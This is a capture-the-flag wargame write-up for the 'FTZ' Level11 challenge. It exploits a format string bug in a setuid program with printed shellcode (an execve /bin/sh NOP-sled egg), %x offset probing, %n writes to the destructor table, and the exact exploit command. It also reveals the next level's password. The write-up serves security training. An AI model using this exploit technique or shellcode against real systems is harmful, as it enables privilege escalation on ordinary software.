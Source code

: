 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

41414141(means AAAA) was printed in fourth that you can exploit in here.

I will make the shell code(egg.c) and getenv.c(To get SUPERDK's address)

```
[level11@ftz tmp]$ cat egg.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define DEFAULT_OFFSET 0
#define DEFAULT_ADDR_SIZE 8
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_SUPERDK_SIZE 2048
#define NOP 0x90

char shellcode[] =
 "\x31\xc0\x31\xd2\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
 "\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

unsigned long get_sp(void)
{
        __asm__("movl %esp, %eax");
}

int main(int argc, char **argv)
{
        char *ptr, *superSH;
        char shAddr[DEFAULT_ADDR_SIZE + 1];
        char cmdBuf[DEFAULT_BUFFER_SIZE];
        long *addr_ptr,addr;
        int offset=DEFAULT_OFFSET;
        int i, supershLen=DEFAULT_SUPERDK_SIZE;
        int chgDec[3];

        if(!(superSH = malloc(supershLen)))
        {
                printf("Can't allocate memory for supershLen");
                exit(0);
        }

        addr = get_sp() - offset;
        printf("Using address: 0x%x\n", addr);

        ptr = superSH;
        for(i=0; i<supershLen - strlen(shellcode) - 1; i++)
                *(ptr++) = NOP;

        for(i=0; i<strlen(shellcode); i++)
                *(ptr++) = shellcode[i];

        superSH[supershLen - 1] = '\0';

        memcpy(superSH, "SUPERDK=", DEFAULT_ADDR_SIZE);
        putenv(superSH);

        system("/bin/bash");
}

[level11@ftz tmp]$ cat getenv.c

#include <stdio.h>

int main()
{
        printf("SUPERDK's addr=%p\n", getenv("SUPERDK"));
}
```

```
[level11@ftz level11]$ nm attackme
08049610 d __DTOR_END__

[level11@ftz tmp]$ ./egg
Using address: 0xbfffe988

[level11@ftz tmp]$ ./getenv
SUPERDK's addr=0xbffff49d
```

The attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 : \x10\x96\x04\x08(08049610)   
Address2(Address+1) : \x12\x96\x04\x08(08049612)   

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
Value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
Value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066

So, the attack code is   
`/home/level11/attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n`

```
[level11@ftz level11]$ ./attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n

sh-2.05b$ my-pass

Level12 Password is "it is like this".
```
